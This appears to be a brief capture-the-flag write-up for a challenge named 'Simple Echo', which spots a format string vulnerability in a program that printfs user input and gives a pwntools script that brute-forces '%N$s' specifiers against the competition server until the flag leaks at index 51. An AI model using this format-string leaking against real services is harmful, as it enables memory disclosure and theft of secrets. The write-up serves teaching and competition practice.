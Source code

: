 # Simple Echo

1. Using GDB, look at `main` function. It simply takes a string as input and `printf`s it. Clearly a format string vulnerability.
2. Brute force:

    ```python
    from pwn import *

    for i in range(1, 100):
        try:
            p = remote('simple-echo.2024-bq.ctfcompetition.com', 1337)
            p.recvuntil(b'Type input to be echoed: ')
            
            payload = f'%{i}$s'.encode()

            p.sendline(payload)
            sleep(2)
            p.recvuntil(b'Echoed output: \n')
            op = p.recvline()
            print(op, "index:",i)
            p.close()
        except:
            pass
    ```

    We get the flag at index **51**
